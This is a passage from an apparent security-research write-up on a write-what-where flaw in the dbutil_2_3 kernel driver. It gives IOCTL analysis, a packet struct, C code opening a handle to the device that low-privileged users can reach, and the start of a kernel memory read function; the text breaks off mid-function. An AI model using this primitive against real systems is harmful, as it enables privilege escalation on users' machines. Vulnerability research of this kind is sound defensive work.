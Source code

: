 * `rcx/destination` points to `r9+0x18` (the address to write to).
* `rdx` points to the sum of `rbx+0x8` and `rbx+0x10` (the address to write from).
* `r8` is set to `irp->CurrentStackLocation->InputBufferLength` minus `24`.

Within the reading flow (IOCTL `0x9B0C1EC4`), before calling `memmove`:

* `rcx/destination` points to the sum of `rbx+0x8` and `rbx+0x10` (the address to read to).
* `rdx/source` points to `r9+0x18` (the address to read from).
* `r8` is set to `irp->CurrentStackLocation->InputBufferLength` minus `24` (number of bytes to move).

Concluding, this allows us to construct the following struct:

{% highlight c %}
typedef struct _PACKET
{
    uint64_t ignore;                // Offset 0x00/00: Ignore
    uint8_t* user_address;          // Offset 0x08/08: Address to read from or write to
    uint64_t user_address_offset;   // Offset 0x10/16: Offset (may always be 0)
    uint8_t* kernel_address;        // Offset 0x18/24: Data to write (if writing)
} PACKET, * PPACKET;
{% endhighlight %}

Which will call `memmove` in the following ways:

{% highlight c %}
// Writing kernel memory
memmove(packet->kernel_address, packet->user_address + packet->user_address_offset, 8);

// Reading kernel memory
memmove(packet->user_address + packet->user_address_offset, packet->kernel_address, 8);
{% endhighlight %}

As there is no proper input validation whatsoever, the kernel driver is indeed vulnerable to a write-what-where vulnerability.

### 2. Exploit

To communicate with the driver, we first need to open a handle to it. The pseudocode below shows how to open a handle to the symbolic link of the driver device. Using the software DeviceTree (from OSR), the ACLs on the symbolic link can be inspected. This shows that `Everyone` has permissions to open handle to the symbolic link. Thus, the code below to create a handle to the symbolic link can even be executed by low-privileged users on the system. This gives threat actors the opportunity for privilege escalation.

{% highlight c %}
HANDLE hDevice = CreateFileW(L"\\\\.\\dbutil_2_3", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
{% endhighlight %}

Afterwards, this handle can be used to call the two vulnerable IOCTLs. I've created two functions for this. The first one is for reading kernel memory, by passing the device handle and a kernel address to it.

{% highlight c %}
/**
 * Read kernel space memory.
 * 
 * @param HANDLE hDevice The handle to the vulnerable driver.
 * @param uint8_t* kernel_address Kernel space address to read.
 * @return uint8_t* The memory byte stream.
 */
uint8_t* memoryRead(HANDLE hDevice, uint8_t* kernel_address) {
    uint32_t lpBytesReturned;
    PACKET lpBuffer;

    lpBuffer.user_address_offset = 0;
    lpBuffer.kernel_address = kernel_address;
